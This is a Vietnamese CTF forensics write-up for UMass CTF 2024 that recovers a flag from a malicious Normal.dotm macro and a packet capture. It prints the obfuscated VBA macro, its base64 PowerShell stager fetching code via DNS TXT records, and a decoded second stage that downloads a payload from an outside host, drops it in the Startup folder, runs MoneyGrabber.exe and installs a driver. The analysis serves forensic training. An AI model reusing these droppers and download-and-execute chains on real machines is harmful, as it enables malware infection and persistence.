# UMASS CTF 2024.
### I. Meet My Computer Wife Karen.
```
Mr. Krabs has noticed some weird pop-ups on his computer recently, and he wants you to take a look.

He's particularly worried because Plankton hasn't tried to steal the Krabby patty secret formula for a while. Has he found another way in?
```
- CHall này cho mình 1 file `.ad1` và 1 file `.pcapng` , khi đọc đề nó có đề cập tới 1 file tên là `Krabby patty secret formula` nên mình vào `FTK imager` để check file `ad1` trước.

- Tải nó về thì dường như nội dung ko có gì cả , nên mình nghĩ có 1 khả năng nào đó, sẽ có 1 file word document nào đó có `macros`, mình check file `krabby_patty_secret_formula.docx` nó không có macros.

- Và các file có macros thường sẽ được lưu ở địa chỉ này và mình kiếm được file này: 
```
/AppData/Roaming/Microsoft/Templates

/AppData/Roaming/Microsoft/Templates/Normal.dotm
```

- Có 2 cách để xem macros đó là xài `olevba` hoặc là vào `Microsoft word` mở file chọn phần View vào phần Macros chọn edit Hoặc là `Alt + F11` cho lẹ.
```
$ olevba Normal.dotm 
olevba 0.60.2dev5 on Python 3.11.8 - http://decalage.info/python/oletools
===============================================================================
FILE: Normal.dotm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: word/vbaProject.bin - OLE stream: 'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas
in file: word/vbaProject.bin - OLE stream: 'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Function dgfbhsrjtyghsfgbn(betrhyhzdfgbvfadgh() As Byte, tgdrhnatrhathgdf As Long) As Boolean
    Dim drtgvhsrtghgfhng As Byte
    drtgvhsrtghgfhng = 127
    For i = 0 To tgdrhnatrhathgdf - 1
        betrhyhzdfgbvfadgh(i) = betrhyhzdfgbvfadgh(i) Xor drtgvhsrtghgfhng
        drtgvhsrtghgfhng = ((drtgvhsrtghgfhng + 5) Xor 105)
    Next i
    drtgvhsrtghgfhng = True
End Function

Function flagpart()
    Dim bnirujwtnbiwrbn(12) As Byte
    bnirujwtnbiwrbn(0) = 42
    bnirujwtnbiwrbn(1) = 160
    bnirujwtnbiwrbn(2) = 218
    bnirujwtnbiwrbn(3) = 154
    bnirujwtnbiwrbn(4) = 244
    bnirujwtnbiwrbn(5) = 190
    bnirujwtnbiwrbn(6) = 212
    bnirujwtnbiwrbn(7) = 137
    bnirujwtnbiwrbn(8) = 152
    bnirujwtnbiwrbn(9) = 130
    bnirujwtnbiwrbn(10) = 186
    bnirujwtnbiwrbn(11) = 138
    flagpart = dgfbhsrjtyghsfgbn(bnirujwtnbiwrbn(), 12)
End Function


Sub formuoli()
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run ("powershell.exe IEX([Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('JGI2NCA9ICIiDQoNCmZvciAoJGk9MTskaSAtbGUgNzskaSsrKSB7DQogICAgJHRlbXAgPSAobnNsb29rdXAgLXE9dHh0IC10aW1lb3V0PTMgJGknLmFtZXJpY2FudmVndGFibGVzLmNvbScpWy0xXSAtcmVwbGFjZSAnIicsJycgLXJlcGxhY2UgJ1xzJywnJw0KICAgICRiNjQgKz0gJHRlbXANCn07DQoNCiMgX2QwY01fNTdpTExfDQoNCmlleChbU3lzdGVtLlRleHQuRW5jb2RpbmddOjpBU0NJSS5HZXRTdHJpbmcoW1N5c3RlbS5Db252ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZygoJGI2NCkpKSk=')))")
End Sub
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Wscript.Shell       |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Run                 |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|powershell          |May run PowerShell commands                  |
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|Xor                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |powershell.exe      |Executable file name                         |
+----------+--------------------+---------------------------------------------+

```

##### Part 1.
- Vào xem macros thi đập ngay vào mắt có 1 function tên là `Flagpart` , phía trên nó là 1 function khác.
- Tóm tắt lại thì 2 function trên nó sẽ lấy byte ở function `Flagpart` đi xor với 127 sau đó lấy 127 + 5 và xor với 105

- Về cơ bản ta chỉ cần chạy 2 function này là ta sẽ có được flag , mình có nhờ GPT để chuyển đổi cũng như là 1 chút chỉnh sửa để code từ VBScript sang python.
```
def dgfbhsrjtyghsfgbn(betrhyhzdfgbvfadgh, tgdrhnatrhathgdf):
    drtgvhsrtghgfhng = 127
    for i in range(tgdrhnatrhathgdf):
        betrhyhzdfgbvfadgh[i] = chr(betrhyhzdfgbvfadgh[i] ^ drtgvhsrtghgfhng)
        drtgvhsrtghgfhng = ((drtgvhsrtghgfhng + 5) ^ 105)
    return ''.join(betrhyhzdfgbvfadgh)

def flagpart():
    bnirujwtnbiwrbn = [42, 160, 218, 154, 244, 190, 212, 137, 152, 130, 186, 138]
    return dgfbhsrjtyghsfgbn(bnirujwtnbiwrbn, 12)

# Thử nghiệm hàm flagpart
print(flagpart())

```
- Chạy code thì ta có được part 1 của flag.
```
$ python3 tools.py
UMASS{wH7_1s
```
##### Part 2.
- Nhìn kỹ 1 tí thì ta sẽ thấy có đoạn base64 ở phía dưới decode nó ra được đoạn script sau.
```
$b64 = ""

for ($i=1;$i -le 7;$i++) {
    $temp = (nslookup -q=txt -timeout=3 $i'.americanvegtables.com')[-1] -replace '"','' -replace '\s',''
    $b64 += $temp
};

# _d0cM_57iLL_

iex([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String(($b64))))
```
- Part 2 của flag nó đã được comment lại r.
##### Part 3
- hãy nhìn vào đoạn script ta có thể thấy 1 domain name `americanvegtables.com` và cả khi chạy thử macros nó cũng có hiển thị các sudomian tương tự.

- Đây có lẽ là hint để ta kiếm phần tiếp theo của flag các domain name như này chắc chắn ta cần phải sử dụng đến file `.pcapng` rồi.
- Mình sử dụng ngay filter này `dns && dns matches "americanvegtables.*"` để lọc ra các domain này và ta có thể thấy data của packet này là 1 đoạn base, khi mình lọc ra 1 lần nữa thì tổng có 7 packets mới có data.


- Mình xài tshark để lấy data ra.
```
$ tshark -r capture.pcapng -Y "dns && dns.txt" -T fields -e "dns.txt"
JGRvd25sb2FkVVJMID0gIjE5Mi4xNjguMTU3LjE0NTo4MDgwL21vbmV5LnBuZyIKJGNvbnRlbnQgPSBJbnZva2UtV2ViUmVxdWVzdCAkZG93bmxvYWRVUkwKCiRyZSA9IE5ldy1PYmplY3QgU3lzdGVtLlRleHQuUmVndWxhckV4cHJlc3Npb25zLlJlZ2V4KCJjNGZj
MzRmNDUzODZkNGM5OGUyNiIpCiRzdHVmZiA9IFtyZWdleF06OlNwbGl0KCRjb250ZW50LCAkcmUpWzFdCiR6aXAgPSBbU3lzdGVtLkNvbnZlcnRdOjpGcm9tQmFzZTY0U3RyaW5nKCRzdHVmZikKClNldC1Db250ZW50ICJDOlxQcm9ncmFtRGF0YVxNaWNyb3NvZnRc
V2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0VXBcc3R1ZmYuemlwIiAtVmFsdWUgJHppcCAtRW5jb2RpbmcgQnl0ZQoKRXhwYW5kLUFyY2hpdmUgLVBhdGggIkM6XFByb2dyYW1EYXRhXE1pY3Jvc29mdFxXaW5kb3dzXFN0YXJ0IE1lbnVcUHJvZ3JhbXNc
U3RhcnRVcFxzdHVmZi56aXAiIC1EZXN0aW5hdGlvblBhdGggIkM6XFByb2dyYW1EYXRhXE1pY3Jvc29mdFxXaW5kb3dzXFN0YXJ0IE1lbnVcUHJvZ3JhbXNcU3RhcnRVcFwiCgpSZW1vdmUtSXRlbSAiQzpcUHJvZ3JhbURhdGFcTWljcm9zb2Z0XFdpbmRvd3NcU3Rh
cnQgTWVudVxQcm9ncmFtc1xTdGFydFVwXHN0dWZmLnppcCIKClN0YXJ0LVByb2Nlc3MgIkM6XFByb2dyYW1EYXRhXE1pY3Jvc29mdFxXaW5kb3dzXFN0YXJ0IE1lbnVcUHJvZ3JhbXNcU3RhcnRVcFxNb25leUdyYWJiZXIuZXhlIiAtTm9OZXdXaW5kb3cKCnBucHV0
aWwuZXhlIC9hZGQtZHJpdmVyICJDOlxQcm9ncmFtRGF0YVxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0VXBcbXlEcml2ZXIuaW5mIiAvaW5zdGFsbAoKc2MuZXhlIHN0YXJ0IG15RHJpdmVyCgpSZW1vdmUtSXRlbSAiQzpcUHJvZ3Jh
bURhdGFcTWljcm9zb2Z0XFdpbmRvd3NcU3RhcnQgTWVudVxQcm9ncmFtc1xTdGFydFVwXG15RHJpdmVyLioiCgojIFdyaXRlLU91dHB1dCAiNF90SDFuR18i
```
- Decode đoạn base64 sau mình thu được 1 đoạn script sau:
```
$downloadURL = "192.168.157.145:8080/money.png"
$content = Invoke-WebRequest $downloadURL

$re = New-Object System.Text.RegularExpressions.Regex("c4fc34f45386d4c98e26")
$stuff = [regex]::Split($content, $re)[1]
$zip = [System.Convert]::FromBase64String($stuff)

Set-Content "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\stuff.zip" -Value $zip -Encoding Byte

Expand-Archive -Path "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\stuff.zip" -DestinationPath "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"

Remove-Item "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\stuff.zip"

Start-Process "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\MoneyGrabber.exe" -NoNewWindow

pnputil.exe /add-driver "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\myDriver.inf" /install

sc.exe start myDriver

Remove-Item "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\myDriver.*"

# Write-Output "4_tH1nG_"
```
- Part 3 của flag cũng đã có và nó đã được cmt lại r.
##### Part 4.
- Nhìn vào đoạn script trên thì ta thấy nó có download 1 ảnh `money.png` từ `192.168.157.145:8080`
- Split tấm ảnh thành 2 phần từ byte này `c4fc34f45386d4c98e26`
- encode phần sau của tấm ảnh thành base64
- zip phần dữ liệu đó lại.
- Tìm kiếm và follow nó thì dữ liệu nó sẽ trông như thế này.


- Nếu cố mở ảnh ra thì nó sẽ như này.

- Sau đây là đoạn script lấy đoạn base64 ra decode nó và nhét vào 1 file zip, sau đó extract nó ra xem nội dung bên trong có gì nhé.
```
from base64 import b64decode

with open('picture.png', 'rb') as fd:
    data = fd.read()

with open('implant.zip', 'wb') as fd:
    fd.write(b64decode(data[data.index(b"c4fc34f45386d4c98e26") + 20:].strip()))
```
- Extract nó ra thì ta có file flag4.txt đây cũng là part cuối lun.
.
- *`FLAG: UMASS{wH7_1s_d0cM_57iLL_4_tH1nG_1n_th3_y34r_2024??}`*